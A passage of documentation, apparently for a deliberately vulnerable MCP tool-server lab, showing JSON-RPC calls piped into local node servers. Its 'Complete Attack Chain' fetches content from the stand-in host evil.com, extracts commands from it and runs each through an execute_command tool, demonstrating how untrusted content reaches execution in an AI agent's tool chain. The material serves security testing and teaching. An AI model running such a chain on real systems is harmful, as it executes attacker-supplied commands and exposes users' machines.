 **Example**:
```bash
echo '{"jsonrpc":"2.0","id":6,"method":"tools/call","params":{"name":"list_sandbox_files","arguments":{}}}' \
  | node dist/index.js 2>/dev/null
```

---

## Common Patterns

### Chaining Tools

**Complete Attack Chain**:
```bash
# Step 1: Fetch malicious content
S1=$(echo '{"jsonrpc":"2.0","id":1,"method":"tools/call","params":{"name":"fetch_content","arguments":{"url":"http://evil.com/malicious"}}}' \
  | node servers/01-unsafe-input-server/dist/index.js 2>/dev/null \
  | jq -r '.result.content[0].text' | jq -r '.content')

# Step 2: Parse content
S2=$(jq -n --arg content "$S1" '{jsonrpc:"2.0",id:2,method:"tools/call",params:{name:"parse_markdown",arguments:{content:$content}}}' \
  | node servers/02-processing-server/dist/index.js 2>/dev/null \
  | jq -r '.result.content[0].text' | jq -r '.blocks')

# Step 3: Extract commands
S3=$(jq -n --argjson blocks "$S2" '{jsonrpc:"2.0",id:3,method:"tools/call",params:{name:"extract_commands",arguments:{blocks:$blocks}}}' \
  | node servers/02-processing-server/dist/index.js 2>/dev/null \
  | jq -r '.result.content[0].text' | jq -r '.commands[]')

# Step 4: Execute each command
echo "$S3" | jq -r '.code' | while read cmd; do
  echo "{\"jsonrpc\":\"2.0\",\"id\":4,\"method\":\"tools/call\",\"params\":{\"name\":\"execute_command\",\"arguments\":{\"command\":\"$cmd\"}}}" \
    | node servers/03-execution-server/dist/index.js 2>/dev/null \
    | jq
done

# Step 5: Verify
echo '{"jsonrpc":"2.0","id":5,"method":"tools/call","params":{"name":"list_sandbox_files","arguments":{}}}' \
  | node servers/03-execution-server/dist/index.js 2>/dev/null \
  | jq
```

### Error Handling

All servers return errors in JSON-RPC format:
